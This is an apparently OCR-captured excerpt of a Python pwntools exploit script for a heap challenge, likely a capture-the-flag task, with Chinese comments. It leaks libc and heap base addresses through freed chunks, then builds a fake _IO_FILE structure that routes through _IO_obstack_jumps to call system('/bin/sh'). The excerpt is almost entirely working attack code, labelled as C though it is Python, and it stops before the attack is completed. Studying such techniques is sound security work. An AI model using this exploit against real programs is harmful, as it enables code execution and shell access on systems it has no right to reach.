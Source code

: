 ```c

def show(index=-1):
    sh.sendlineafter(choice_words, str(menu_show))
    if show_index_words:
        sh.sendlineafter(show_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def calloc(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(2))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

# 泄露libc地址并还原
add(index=0, size=0x500, content=b'aa')
add(index=1, size=0x10, content=b'zzz')
delete(index=0)
show(index=0)
libc_leak = u64(sh.recv(6).ljust(8, b'\x00'))
leak_info('libc_leak', libc_leak)
libc.address = libc_leak - 0x21ace0
leak_info('libc.address', libc.address)
add(index=0, size=0x500, content=b'aaa')


# 泄露heap地址并还原
add(index=0, size=0x20, content=b'aa')
delete(index=0)
show(index=0)
key = u64(sh.recv(5).ljust(8, b'\x00'))
leak_info('key', key)
heap_base = key << 12
leak_info('heap_base', heap_base)
add(index=0, size=0x20, content=b'aa')

_IO_obstack_jumps = libc.address + 0x2173c0
chunk_address = heap_base + 0x7f0

# create fake IO FILE
fake_IO = p64(0)*3 + p64(1) # next_free
fake_IO += p64(0) # chunk_limit
fake_IO += p64(1) # _IO_write_ptr
fake_IO += p64(0) # _IO_write_end
fake_IO += p64(libc.sym['system'])
fake_IO = fake_IO.ljust(0x48, b'\x00') + p64(next(libc.search(b'/bin/sh\x00'))) # 函数参数
fake_IO += p64(1) # use_extra_arg
fake_IO = fake_IO.ljust(0xd8, b'\x00') + p64(_IO_obstack_jumps + 0x20)
```